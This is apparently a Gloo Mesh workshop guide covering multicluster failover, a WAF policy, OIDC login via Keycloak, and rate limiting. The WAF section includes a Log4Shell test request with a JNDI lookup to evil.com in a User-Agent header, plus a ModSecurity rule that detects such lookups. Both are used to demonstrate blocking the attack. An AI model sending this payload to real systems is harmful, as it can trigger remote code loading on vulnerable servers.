

## Lab 9 - Multicluster Failover <a name="Lab-9"></a>



1. Deploy the frontend application to `cluster2`

```sh
kubectl apply --context $CLUSTER2 -f install/online-boutique/web-ui-cluster2.yaml
```

2. Create VirtualDestination for frontend application

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
  - frontend.web-ui-team.solo-io.mesh
  services:
  - labels:
      app: frontend
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: http
EOF
```

3. Create VirtualDestinations for the rest of the backend-apis so the cluster2 frontend can reach them

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: ads
  namespace: backend-apis-team
spec:
  hosts:
  - ads.backend-apis-team.solo-io.mesh
  services:
  - labels:
      app: adservice
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: grpc
---
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: cart
  namespace: backend-apis-team
spec:
  hosts:
  - cart.backend-apis-team.solo-io.mesh
  services:
  - labels:
      app: cartservice
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: grpc
---
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: recommendations
  namespace: backend-apis-team
spec:
  hosts:
  - recommendations.backend-apis-team.solo-io.mesh
  services:
  - labels:
      app: recommendationservice
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: grpc
EOF
```

4. Update the RouteTable so the VirtualGateway will route to both frontend applications

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
  labels:
    lab: failover
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-team
            kind: VIRTUAL_DESTINATION
            port:
              number: 80
EOF
```

5. Test routing between frontend services

* cluster1 header


* cluster2 header


* Alternatively you can test this using curl

```sh
for i in {1..6}; do curl -sSk http://$HTTP_GATEWAY_ENDPOINT | grep "Cluster Name:"; done
```

6. Apply the FailoverPolicy.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: web-team
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      namespace: web-team
  config:
    localityMappings:
    - from:
        region: us-east-1
      to:
        - region: us-west-2
    - from:
        region: us-west-2
      to: 
        - region: us-east-1
EOF
```

7. Apply the OutlierDetectionPolicy.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: web-team
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      namespace: web-team
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 15s
    maxEjectionPercent: 100
EOF
```

8. Make it so that the frontend application in cluster1 cannot respond to requests.

```sh
kubectl --context $CLUSTER1 -n web-ui patch deploy frontend --patch '{"spec":{"template":{"spec":{"containers":[{"name":"server","command":["sleep","20h"],"readinessProbe":null,"livenessProbe":null}]}}}}'
```

9. Test failover to cluster2 frontend application

* Optionally view the cluster failover using curl

```sh
for i in {1..6}; do curl -sSk http://$HTTP_GATEWAY_ENDPOINT | grep "Cluster Name:"; done
```

10. Fix frontend in cluster1

```sh
kubectl --context $CLUSTER1 -n web-ui patch deploy frontend --patch '{"spec":{"template":{"spec":{"containers":[{"name":"server","command":[],"readinessProbe":null,"livenessProbe":null}]}}}}'
sleep 5
kubectl wait pod -l app=frontend -n web-ui --context $CLUSTER1 --for condition=ready
```

11. Test that the frontend in cluster1 is working again

## Lab 10 - API Gateway <a name="Lab-10"></a>

In order to use the various features of the Gloo API gateway you will need to deploy the `Gloo Mesh Addons` package which has the components to use features such as `rate limiting` and `external authorization`.

1. Install the `gloo-mesh-addons` package in cluster1

```sh
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio-injection=enabled

helm repo add gloo-mesh-agent https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-agent
helm repo update

helm upgrade --install gloo-mesh-agent-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER1} \
  --set glooMeshAgent.enabled=false \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version $GLOO_MESH_VERSION
```

2. Update the workspace settings to import and export the `gloo-mesh-addons`

```
kubectl apply -f tracks/06-api-gateway/workspace-settings.yaml --context $MGMT
```

### 1. Add a web application firewall (WAF)

Gloo Mesh Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

**Before you begin**

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.


2. Confirm that a bad JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$HTTP_GATEWAY_ENDPOINT
```

**WAF policy**
With the Gloo Mesh WAF policy custom resource, you can create reusable policies for ModSecurity.

3. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

  * In the route table, the frontend route has the label `waf: "true"`. The WAF policy applies to routes with this same lable.
  * In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: frontend
      labels:
        waf: "true"
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
              cluster: cluster1
            port:
              number: 80
---
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: web-team
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$HTTP_GATEWAY_ENDPOINT
```

Note that the is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!


### 2. External Authorization (OIDC)

Another valuable feature of API gateways is integration into your IdP (Identity Provider).  In this section of the lab, we see how Gloo Mesh Gateway can be configured to redirect unauthenticated users via OIDC.  We will use Keycloak as our IdP, but you could use other OIDC-compliant providers in your production clusters.

1. In order for OIDC to work we need to enable HTTPS on our gateway. To do so we need to create and upload a self-signed certificate

```sh
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"

kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```


2. Adding HTTPS to our gateway is simple as updating the virtual gateway to use our ssl certificate
```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
        namespace: istio-gateways
  listeners:
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
EOF
```

3. Test out the new HTTPS endpoint (you may need to allow insecure traffic in your browser)

```sh
export ENDPOINT_HTTPS_GW_CLUSTER1_EXT=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
echo "Secure Online Boutique URL: https://$ENDPOINT_HTTPS_GW_CLUSTER1_EXT"
```

4. Finally, we need to deploy our OIDC server keycloak. We provided you with a script to deploy and configure keycloak for our workshop. 

* Deploy and configure Keycloak

```sh
./install/keycloak/setup.sh

export KEYCLOAK_URL=$(kubectl get configmap -n gloo-mesh --context $CLUSTER1 keycloak-info -o json | jq -r '.data."keycloak-url"')
export KEYCLOAK_CLIENTID=$(kubectl get configmap -n gloo-mesh --context $CLUSTER1 keycloak-info -o json | jq -r '.data."client-id"')
```

The `ExtAuthPolicy` defines the provider connectivity including any callback paths that we need to configure on our application.

* View the `ExtAuthPolicy` with environment variables replaced

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh
```

* Apply the `ExtAuthPolicy`

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh | kubectl apply -n web-team --context $MGMT -f -
```

An `ExtAuthServer` is also required to define the external auth server destination we want to use.  We will use the ext-auth-server in the gloo-mesh-addons namespace.

* Apply the `ExtAuthServer`

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: web-team
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Associating this `ExtAuthPolicy` with the gateway `RouteTable` will ensure that the policy is enforced.

* Apply the `RouteTable`

```sh
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: main-page
      labels:
        oauth: "true"
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
              cluster: cluster1
            port:
              number: 80
EOF
```

Now if you refresh the application, you should be redirected to Keycloak to login.

* Login using the following credentials

```sh
user: gloo-mesh
password: solo
```

* To logout simply call the `/logout` endpoint in your browser


```sh
echo "Logout URL: https://$ENDPOINT_HTTPS_GW_CLUSTER1_EXT/logout"
```

And the application is now accessible.

### 3. Add Rate Limiting

Secondly, we will look at rate limiting with Gloo Mesh Gateway.  The rate limiting feature relies on a rate limit server that has been installed in our gloo-mesh-addons namespace.

For rate limiting, we need to create three CRs.  Let's start with the `RateLimitClientConfig`.

The `RateLimitClientConfig` defines the conditions in the request that will invoke rate limiting.  In this case, we will define a key coming from the header `X-Organization`.

The `RateLimitPolicy` pulls together the `RateLimitClientConfig`, `RateLimitServerConfig` and sets the label selector to use in the `RouteTable`.

* Apply the `RateLimitPolicy`

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server-settings
  namespace: web-team
spec:
  destinationServer:
    port:
      number: 8083
    ref:
      name: rate-limiter
      namespace: gloo-mesh-addons
      cluster: cluster1
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: rate-limit-client-config
  namespace: web-team
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
---
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: rate-limit-server-config
  namespace: web-team
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3
        unit: MINUTE
      value: counter
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: rate-limit-policy
  namespace: web-team
spec:
  applyToDestinations:
  - selector:
      labels:
        app: frontend
  config:
    serverSettings:
      name: rate-limit-server-settings
      namespace: web-team
      cluster: mgmt
    ratelimitClientConfig:
      name: rate-limit-client-config
      namespace: web-team
      cluster: mgmt
    ratelimitServerConfig:
      name: rate-limit-server-config
      namespace: web-team
      cluster: mgmt
    phase:
      preAuthz: { }
EOF
```

* Because its hard to validate rate limiting with authentication on we will disable external authentication for now.

```sh
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: main-page
      labels:
        oauth: "false"
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
              cluster: cluster1
            port:
              number: 80
EOF
```


* Test Rate Limiting

```sh
for i in {1..6}; do curl -iksS -X GET http://$HTTP_GATEWAY_ENDPOINT | tail -n 10; done
```

* Expected Response - If you try the Online Boutique UI you will see a blank page because the rate-limit response is in the headers

```sh
HTTP/2 429
x-envoy-ratelimited: true
date: Sun, 05 Jun 2022 18:50:53 GMT
server: istio-envoy
x-envoy-upstream-service-time: 7
```